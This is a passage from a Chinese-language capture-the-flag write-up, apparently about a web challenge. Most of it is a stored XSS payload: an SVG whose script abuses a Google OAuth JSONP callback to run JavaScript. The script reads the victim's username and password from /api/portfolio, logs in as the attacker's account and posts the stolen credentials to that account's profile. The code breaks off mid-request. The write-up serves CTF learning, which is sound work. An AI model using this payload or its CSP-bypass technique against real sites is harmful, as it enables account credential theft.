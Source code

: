 ![](/images/2023/05/SGkC8hs.png)

其中因為有些字元會被encode或閉合，像是 ``` " > ``` 之類的

下方的程式過程是:
1. 先透過```/api/portfolio```取得FLAG
2. 使用```/api/login```登入自己的帳號
3. 將帳號密碼寫入到自己的布告欄上

```
<svg xmlns="http://www.w3.org/2000/svg">
	<script href="https://accounts.google.com/o/oauth2/revoke?callback=fetch('/api/portfolio').then(function (r)
{ return r.json() }).then(function (t)
{ const USERAAA = (t.data.username);const PASSBBB = (t.data.password);
fetch('/api/login', {
    'headers': {
      'content-type': 'application/json',
    },
    'referrer': 'http://127.0.0.1:1234/login',
    'referrerPolicy': 'strict-origin-when-cross-origin',
    'body': JSON.stringify({ username:'test', password: 'test' }),
    'method': 'POST',
    'mode': 'cors',
    'credentials': 'include'
  }).then(function(z)
  { const formData = new FormData();
	const leak = USERAAA.concat(PASSBBB);
    formData.append('about', leak);
  fetch('/api/portfolio', {
    'referrer': 'http://127.0.0.1:1234/portfolio',
    'referrerPolicy': 'strict-origin-when-cross-origin',
    'body': formData,
    'method': 'PUT',
    'mode': 'cors',
```